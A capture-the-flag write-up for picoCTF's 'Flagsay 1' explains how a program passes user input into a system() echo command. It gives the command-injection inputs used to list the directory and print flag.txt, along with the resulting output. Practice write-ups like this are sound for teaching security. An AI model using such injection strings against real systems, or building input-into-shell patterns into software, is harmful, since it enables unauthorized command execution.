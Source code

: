  # Flagsay 1

[Click here for the code for this problem.](https://webshell2017.picoctf.com/static/664096763467adeb260dd8b508409fb6/flagsay-1.c)

This problem uses an echo command to output the flag.  Unfortunately for this program, we are also allowed to input information into this command.  This makes it fairly easy for us to use a [Command injection](https://www.owasp.org/index.php/Command_Injection) attack.


1. Go ahead and netcat into the server.
2. Next, we craft the system() command to help us find the flag.  We'll want to try to inject an "ls" command so we can check the directory.
  * Notice the format of the system call: __char commandBase[] = "/bin/echo \"%s\"\n";__
  * The %s is where our input will eventually end up.  We can use this to our advantage.
  * Bash commands can be terminated with a semicolon.
  * Therefore...
3. We can craft our input as such to see what other files are in the directory:
  * __"; ls -la; exit; "__  
  * Result:
  
_drwxr-x---   2 hacksports flagsay-1_9  4096 Apr  3 01:43 .                                                                     
drwxr-x--x 573 root       root        36864 Apr 16 23:31 ..                                                                    
-rwxr-xr-x   1 hacksports hacksports   6872 Apr 16 23:41 flagsay-1                                                             
-rwxr-sr-x   1 hacksports flagsay-1_9  6944 Apr 16 23:41 flagsay-1_no_aslr                                                     
-r--r-----   1 hacksports flagsay-1_9    33 Apr 16 23:41 flag.txt                                                              
-rwxr-sr-x   1 hacksports flagsay-1_9   120 Apr 16 23:41 xinetd_wrapper.sh_


4. We can now issue the final command and get the flag:
  * __"; cat flag.txt; exit; "__
